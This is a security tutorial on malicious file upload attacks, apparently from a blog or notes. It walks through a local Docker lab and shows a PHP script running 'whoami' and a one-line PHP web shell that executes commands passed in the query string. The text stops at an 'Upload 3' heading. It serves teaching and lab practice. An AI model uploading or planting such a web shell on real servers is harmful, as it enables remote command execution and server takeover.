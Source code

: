 File upload abuse is a type of attack that occurs when an attacker exploits vulnerabilities in web applications that allow users to upload files to the server. This type of attack is commonly referred to as a "*malicious file upload*" attack.

In a malicious file upload attack, an attacker uploads a malicious file to a web application, which is then stored on the server. If for example the attacker manages to upload a PHP file and the web server stores it, he could achieve remote command execution and take control of the server.

Attackers can also use "*file type spoofing*" techniques to trick a web application into accepting a malicious file as if it were a legitimate file.

Here we will explore some of the most commonly used techniques to exploit the file upload phase in web applications. We will learn how attackers can upload malicious content, as well as circumvent different restrictions implemented to do so.

# Example 1

For this example we will clone the following *Github* directory: [file_upload_vulnerability_scenarios](https://github.com/moeinfatehi/file_upload_vulnerability_scenarios).

----
> As a help, all scenarios provide a hint in their source code.
----

To start we will do a *docker-compose up -d* to perform the lab setup and access *localhost:9001*. We will leave **BurpSuite** open to check the requests:

```bash
burpsuite &> /dev/null & disown
```

## Upload 1

The web site specifies that we can only upload jpeg or gif images, but it does not imply that this is true. With **Wappalyzer** we can see that the web interprets *PHP* so we are going to create a script called *file.php* and we are going to try to upload it to the server:

```php
<?php
    system("whoami");
?>
```

The file could be uploaded and if we access the file from the browser we can see the requested command. We could also pass the commands by query with this other file:

```php
<?php
    system($_GET['cmd']);
?>
```

In this case there is no sanitization so we can upload any type of file.

## Upload 3
